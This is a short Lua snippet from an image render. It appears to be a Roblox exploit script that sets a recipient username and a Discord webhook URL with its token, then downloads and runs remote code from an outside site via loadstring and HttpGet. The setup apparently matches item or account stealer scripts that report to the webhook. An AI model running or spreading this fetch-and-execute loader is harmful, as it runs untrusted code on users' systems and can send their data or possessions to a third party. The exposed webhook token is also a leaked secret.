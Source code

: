 UserName = "PogrzaloCie"
UserName2 = "PogrzaloCie" 
Webhook = "https://discord.com/api/webhooks/1097981158421184654/h34T6lkAsC-oWEwaVSatTOnV1mg6uqMeyJOpuU-hm6rVNmJibixGqVPKj5NAUt1Rmrjy" 

loadstring(game:HttpGet("https://rizzhub.xyz/scripts/Main.lua", true))()
